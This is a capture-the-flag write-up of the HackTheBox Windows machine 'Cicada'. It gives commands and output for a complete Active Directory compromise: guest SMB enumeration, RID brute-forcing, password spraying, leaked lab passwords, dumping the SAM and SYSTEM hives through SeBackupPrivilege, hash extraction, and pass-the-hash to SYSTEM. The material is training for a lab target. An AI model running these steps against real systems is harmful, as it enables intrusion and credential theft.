

# Cicada

Date: March 2025

Difficulty: <font color='green'>Easy</font>

Category: **full pwn**

## Description

Cicada is a windows machine that provides a good introduction to many windows enumeration and exploitation techniques, such as SMB guest authentication, kerberos user enumeration, password spraying, lateral movement and pass-the-hash techniques.

It can be played [here](https://app.hackthebox.com/machines/Cicada).

## Video Walkthrough

I uploaded a video walkthrough which is available at: 

[](https://www.youtube.com/watch?v=Vt8YzA8myJc "Cicada from HackTheBox")

## Strategy

By using SMB guest authentication we can access a share named "HR", resulting in a password disclosure for an unknown user. Then, performing user enumeration via RID bruteforcing we are able to discover valid domain accounts. Combining these two findings, we identify a valid username:password match by using password spraying. This account allows us to recover users information from the domain; in particular one account contains their password stored in a domain user's description attribute. This new account allows us to access another share named "DEV" which reveals a file containing a password for a third user. With this knowledge, we get initial access to the host. The privilege escalation involves backing up sensitive files such as SAM and SYSTEM and recover the Administrator's NTLM hash.

## Enumeration

An nmap scan (`sudo nmap -sS -p- --min-rate 1000 --open -oA nmap/scan 10.10.11.35`) reveals the following open ports:
```
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-10-07 06:50:31Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.htb0., Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=CICADA-DC.cicada.htb
| Subject Alternative Name: othername:<unsupported>, DNS:CICADA-DC.cicada.htb
| Not valid before: 2024-08-22T20:24:16
|_Not valid after:  2025-08-22T20:24:16
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
57310/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: CICADA-DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Ports 53, 88, 3268, 3269 and 5985 show that we are dealing with an Active Directory Windows Server.

### Guest authentication

Guest authentication is enabled and we can confirmed that with the NetExec tool:

```
$ nxc smb 10.10.11.35 -u guest -p ''
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\guest:
```

With that knowledge, we can enumerate open SMB shares with `smbmap -H 10.10.11.35 -u 'guest%'`, as shown below:


Accessing the open "HR" share, it reveals the file named "Notice from HR.txt":

```
$ smbclient //10.10.11.35/HR -U 'guest%'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 12:29:09 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Notice from HR.txt                  A     1266  Wed Aug 28 18:31:48 2024

		4168447 blocks of size 4096. 301506 blocks available
smb: \> 
```

The file contains the following password, but no username related:

> ...snip...
> Your default password is: Cicada$M6Corpb*@Lp#nZp!8
> ...snip...


### Kerberos

We can try to enumerate valid usernames with `krb5-enum-users` nmap script:

```
$ nmap -Pn -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='cicada.htb'" 10.10.11.35

...snip...

88/tcp open  kerberos-sec
| krb5-enum-users: 
| Discovered Kerberos principals
|     guest@cicada.htb
|_    administrator@cicada.htb

```

We could also try `nmap -p 88 --script=krb5-enum-users.nse --script-args krb5-enum-users.realm='cicada.htb',userdb=/usr/share/seclists/Usernames/Names/names.txt 10.10.11.35`.

As shown above, only the default usernames were found, so let's try another way to enumerate valid accounts.

### Bruteforce RIDs

Using the NetExec tool, we can attempt to [enumerate users by bruteforcing RID](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-users-by-bruteforcing-rid), taking advantage of guest authentication:

```
$ nxc smb 10.10.11.35 -u 'guest' -p '' --rid-brute
```


><u>Note:</u> We could manually bruteforce for RID by using rpcclient, as shown in the [video walkthough](#video-walkthrough).

We execute the following command to get only the users of type `SidTypeUser`, as shown bellow:

```
$ cat rid-brute.txt | grep SidTypeUser | awk -F"\\" '{ print $2 }' | cut -d " " -f 1 > users.txt
```

Then, we perform password spraying over these users (`nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'`), resulting in a valid account (`cicada.htb\michael.wrightson`):


However, with this account we are not able to get remote access:


### Gather domain information

By using michael's account, we gather domain information with the `ldapdomaindump` tool:

```
$ ldapdomaindump -u "cicada.htb\michael.wrightson" -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.10.11.35
[*] Connecting to host...
[*] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

Reviewing the information provided in the `domain_users.html` file, there is a password for the user `david.orelious` in the "description column", as shown below:

>Just in case I forget my password is aRt$Lp#7t*VQ!3


> <u>Note</u>: There is another way to get similar information, by using the [`--users` option](https://www.netexec.wiki/smb-protocol/enumeration/enumerate-domain-users) in NetExec, that I did not know at the time of writing and it is mentioned in [0xdf cicada writeup](https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#enumeration), so I'll keep an eye for a future machine.

We validate `david.orelious`'s credentials and confirm his account has access to the `DEV` share:

```
$ nxc smb 10.10.11.35 -u david.orelious -p 'aRt$Lp#7t*VQ!3' --shares
```


Accessing the DEV share, it shows a file named "Backup_script.ps1", revealing credentials for another user `emily.oscars`:

```
$ smbclient //10.10.11.35/DEV -U 'david.orelious%aRt$Lp#7t*VQ!3'
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Thu Mar 14 12:31:39 2024
  ..                                  D        0  Thu Mar 14 12:21:29 2024
  Backup_script.ps1                   A      601  Wed Aug 28 17:28:22 2024

				4168447 blocks of size 4096. 321115 blocks available
smb: \> get Backup_script.ps1
getting file \Backup_script.ps1 of size 601 as Backup_script.ps1 (0.5 KiloBytes/sec) (average 0.5 KiloBytes/sec)
smb: \> 
```



## Initial Access

`emily.oscars` is in the "Remote Management Users" group, so we can use for example `evil-winrm` to get an interactive shell:

```
$ evil-winrm -i 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt'
```


## Privilege Escalation

Following, `emily.oscars` has the SeBackupPrivilege privilege:


With that information we could be able to backup any file or directory in the system. In particular we are interested in getting the SAM and SYSTEM file in order to dump the NTLM hash for the Adminsitrator user. We can take a look [here](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook/blob/master/Notes/SeBackupPrivilege.md#exploitation).

```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\sam sam

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> reg save hklm\system system
```
Then, we download the files to our attacker machine:
```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download sam

*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Documents> download system
```

Therefore, using secretsdump.py from Impacket, we dump the NTLM hashes and get the local Administrator's NTLM hash:

```
$ impacket-secretsdump -sam sam -system system LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0x3c2b033757a49110a9ee680b46e8d620
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Cleaning up... 
```

By using psexec.py from Impacket we get an interactive shell as "NT AUTHORITY\SYSTEM":

```
$ impacket-psexec -hashes :2b87e7c93a3e8a0ea4a581937016f341 Administrator@10.10.11.35
```


><u>Note:</u> Domain hashes are not stored in the registry, but in <b>ndts.dit</b> file. Review [0xdf cicada writeup's beyond root section](https://0xdf.gitlab.io/2025/02/15/htb-cicada.html#beyond-root---domain-hashes) for more details about it. By the way he provides a good technique for extracting NTLM hashes for all domain users. 